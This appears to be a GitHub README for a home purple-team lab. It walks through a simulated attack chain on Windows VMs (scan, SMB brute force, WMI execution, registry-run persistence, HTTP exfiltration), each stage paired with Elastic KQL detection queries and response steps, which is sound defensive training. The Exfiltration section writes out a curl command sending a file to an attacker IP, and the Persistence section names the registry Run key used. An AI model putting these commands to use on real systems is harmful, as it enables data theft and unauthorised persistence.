






# Purple Team Detection Lab — Elastic Stack

A home lab built to simulate a realistic SOC environment and run a complete attack lifecycle from reconnaissance to data exfiltration. The lab combines Red Team attack simulation with Blue Team detection engineering, mapping each technique to MITRE ATT&CK and following NIST 800-61 for incident response.

> Full write-up: [`report/purple-team-elastic-report.pdf`](report/purple-team-elastic-report.pdf)  
> KQL investigation queries: [`detections/kql-queries.md`](detections/kql-queries.md)

---

## Lab Architecture



| Component | Detail |
|---|---|
| SIEM | Elastic Stack — Elasticsearch, Kibana, Elastic Security |
| EDR | Elastic Defend (endpoint detection and response) |
| Telemetry | Elastic Agent, Sysmon, Packetbeat, Snort |
| Endpoints | Windows 10 VMs (winpro1, winpro2) |
| Domain Controller | Windows Server 2025 — Active Directory (lab.local) |
| Attacker | Kali Linux VM (air-gapped internal network) |
| Attack tools | Nmap, Hydra, Impacket, Python HTTP server, curl |

Atomic Red Team tests were used to validate detection rules independently of the manual attack simulation.

---

## Attack Chain

The lab covered a full kill chain across five stages:

```
Reconnaissance (Port Scan)
  └─► Initial Access (SMB Brute Force)
        └─► Execution (WMI Remote Command Execution)
              └─► Persistence (PowerShell + Registry Autorun)
                    └─► Exfiltration (HTTP via curl)
```

---

## 1. Reconnaissance — Port Scan

**MITRE:** T1595 — Active Scanning

**Attack:** Full TCP connect scan with OS fingerprinting via Nmap across all ports. Open ports identified: 135 (MSRPC), 139 (NetBIOS), 445 (SMB). Port 445 selected as the primary attack vector.

**Detection:** Alert fired on port scan activity originating from the attacker IP targeting winpro1.

**Investigation query:**
```kql
source.address: "192.168.x.x"
```

**Screenshot:**


**Response:**
- Temporarily block source IP at the firewall
- Flag IP for future correlation
- Close unnecessary open ports

---

## 2. Initial Access — SMB Brute Force

**MITRE:** T1110 — Brute Force

**Attack:** Credential brute-force against the `user` account over SMB using Hydra. Attack recovered valid credentials and produced a successful logon (Windows Event ID 4624).

**Detection:** Two alerts fired — multiple failed logon attempts followed by a successful authentication, both originating from the same IP observed during reconnaissance.

**Screenshot:**


**Investigation query:**
```kql
host.name: "winpro1" AND
winlog.event_data.TargetUserName: "user" AND
(event.action: "logged-in" OR event.action: "logon-failed")
```

**Response:**
- Isolate winpro1
- Reset compromised credentials
- Close port 445 and other unnecessary services
- Enforce account lockout policy and MFA

---

## 3. Execution — WMI Remote Command Execution

**MITRE:** T1047 — Windows Management Instrumentation

**Attack:** Remote command execution via Impacket's `wmiexec`, spawning `cmd.exe` as a child of `WmiPrvSE.exe`. Commands executed: `whoami`, `dir`, `netstat` — all redirected to a UNC-path temp file to suppress console output.

**Detection:** High-severity alert — `[Initial Access] WMI suspicious process spawn` — fired on the `cmd.exe` child of `WmiPrvSE.exe`. 27 related log events recovered showing the full command sequence.

**Screenshots:**



**Investigation query:**
```kql
host.name: "winpro1" AND
user.name: "user" AND
process.parent.name: "WmiPrvSE.exe" AND
process.name: "cmd.exe"
```

**Response (automated):**
- Terminate malicious processes spawned by WmiPrvSE.exe
- Isolate winpro1

**Response (manual):**
- Enable ASR rules to block WMI-spawned processes
- Configure WDAC policy to prevent WMI abuse

---

## 4. Persistence — PowerShell + Registry Autorun

**MITRE:** T1059.001 — PowerShell | T1547.001 — Registry Run Keys

**Attack:** PowerShell script downloaded from attacker-controlled Python HTTP server and executed with `-ExecutionPolicy Bypass`. Script modified the registry to establish persistence at startup:
```
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run\persistenceabuse
```

**Detection:** Medium-severity alert — `[Execution] Suspicious Windows PowerShell Arguments` — fired on the PowerShell invocation with execution policy bypass, parented to `cmd.exe`.

**Screenshot:**


**Investigation query:**
```kql
host.name: "winpro1" AND
user.name: "user" AND
process.parent.name: "cmd.exe" AND
process.name: "powershell.exe"
```

**Response (automated):**
- Terminate malicious process chain
- Isolate winpro1

**Response (manual):**
- Remove modified Run registry key
- Perform static/dynamic analysis on script.ps1
- Remove all dropped files and restore system integrity

---

## 5. Exfiltration — HTTP via curl

**MITRE:** T1048.003 — Exfiltration Over Unencrypted HTTP

**Attack:** Data exfiltration using `curl.exe` to a remote Flask server:
```
curl.exe -d .\upload.bin http://192.168.x.x:9000/
```
Full execution chain confirmed: `WmiPrvSE.exe → cmd.exe → powershell.exe → curl.exe`

**Detection:** Alert fired on outbound HTTP data transfer from the `user` account on winpro1.

**Investigation query:**
```kql
host.name: "winpro1" AND
user.name: "user" AND
process.name: "curl.exe"
```

**Response (automated):**
- Isolate winpro1
- Terminate malicious process chain

**Response (manual):**
- Block outbound connections to untrusted IPs at the firewall
- Assess impact and potential data loss
- Document findings

---

## MITRE ATT&CK Summary

| Stage | Technique | ID |
|---|---|---|
| Reconnaissance | Active Scanning | T1595 |
| Initial Access | Brute Force | T1110 |
| Execution | Windows Management Instrumentation | T1047 |
| Execution | PowerShell | T1059.001 |
| Persistence | Registry Run Keys / Startup Folder | T1547.001 |
| Exfiltration | Exfiltration Over Unencrypted HTTP | T1048.003 |

---

## Root Cause Analysis

The full attack chain succeeded due to three compounding weaknesses:
- SMB (port 445) exposed with no egress restrictions
- Weak credentials with no account lockout policy
- No restrictions on WMI remote execution or outbound HTTP from endpoints

---

## Disclaimer

This lab was conducted in a fully isolated, air-gapped home lab environment. No production systems were involved. All offensive techniques were executed against self-owned virtual machines for defensive research and learning purposes only.
